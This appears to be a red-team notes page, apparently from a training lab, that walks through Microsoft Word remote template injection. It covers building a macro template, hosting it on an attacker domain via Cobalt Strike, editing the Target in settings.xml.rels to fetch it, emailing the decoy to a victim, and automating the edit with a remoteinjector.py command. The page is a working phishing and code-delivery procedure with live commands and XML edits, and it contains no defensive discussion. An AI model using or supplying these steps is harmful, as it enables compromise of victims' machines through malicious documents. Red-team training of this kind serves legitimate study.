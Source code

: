 ```yaml
---
description: 09/02/2025
---
```


# ✅ Remote Template Injection

## What is it?

**Microsoft Word includes a feature** that allows users to create documents linked to **templates**. _<mark style="color:red;">These templates can be stored locally or retrieved from a remote server whenever the document is accessed</mark>_.

Exploiting this functionality, attackers can host malicious Word Template files (`.dotm`) on their servers, embedding harmful macros within them. When a victim opens a Word document, it automatically fetches the malicious template from the attacker's server and executes the embedded code, potentially compromising the victim's system.&#x20;

The key benefit of this technique is that the decoy Word document reaching the victim's system appears harmless.&#x20;

This technique is known as _**Living off the Land**_ (**LotL**).&#x20;

## Creating a Malicious Word Template

1. Open Microsoft Word
2. Create a new blank document and insert a desired macro
3. Save to `C:\Payloads` along with the rest of your payloads as a _**Word 97-2003 Template**_ (`*.dot`) file
4. This will now serve as our "malicious remote template"
5. Use Cobalt Strike to host this file at your attacker-controlled domain, in this case, `http://nickelviper.com/template.dot`
6. Now create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Template`, adding any content you want, then save to `C:\Payloads` as a new `.docx` file.&#x20;
7. Browse to the directory in file explorer, right-click, and select `7-zip` > Open archive
8. Navigate to Word -> \_rels, right-click on `settings.xml.rels` and select **Edit**.&#x20;
9. This is just a small little `XML` file. Scroll until you see the `Target` entry:

```
Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"
```

10. You're going to notice that it is currently pointing to the template on our local disk from which the document was created. Simply modify this so that it points to the template URL instead:

```
Target="http://nickelviper.com/template.dot"
```

11. Save those changes and email the document to Bob.
12. Once the file is opened, you'll see a warning about macros again, but allowing them to run will execute the macro in the hosted template, giving us a Beacon.

## Automation?

Check out this [Python tool](https://github.com/JohnWoodman/remoteinjector) that automates this process so that we do not have to modify the XML manually.

```
ubuntu@DESKTOP-3BSK7NO ~> python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
URL Injected and saved to /mnt/c/Payloads/document_new.docx
```

## Observing Web Log Beacon Activity&#x20;

Inside of Cobalt Strike, you can go to _**View -> Web Log**_, and from there you can view any/all activity of your malicious templates.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
